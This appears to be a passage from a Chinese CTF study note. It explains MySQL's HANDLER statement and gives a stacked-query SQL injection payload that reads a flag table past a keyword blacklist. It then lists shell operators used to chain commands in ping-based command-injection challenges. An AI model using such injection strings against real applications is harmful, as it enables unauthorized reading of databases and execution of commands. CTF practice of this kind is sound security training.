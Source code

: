     ![在这里插入图片描述](img/c49d710dc8aae3f675a7906ea0521334.png)

HANDLER方法
引自大佬：HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭
构造：

```
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;# 
```

[参考文章](https://blog.csdn.net/SopRomeo/article/details/105396372?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161762143216780271594201%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161762143216780271594201&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-2-105396372.pc_search_result_cache&utm_term=%5BGYCTF2020%5DBlacklist&spm=1018.2226.3001.4187)

## Ping命令

常用管道符命令

```
& （按位与） 表示任务在后台执行，如要在后台运行redis-server,则有 redis-server &

&& （逻辑与）表示前一条命令执行成功时，才执行后一条命令 ，如果前面为假，后面的命令也不执行   如 echo '1‘ && echo ‘2’

| （按位或）表示管道，上一条命令的输出，作为下一条命令参数，直接执行|后面的语句，如 echo ‘yes’ | wc -l

|| （逻辑或）表示上一条命令执行失败后，才执行下一条命令，否则只执行前面的语句，如 cat nofile || echo “fail”

; 分号表示命令依次执行。 
```
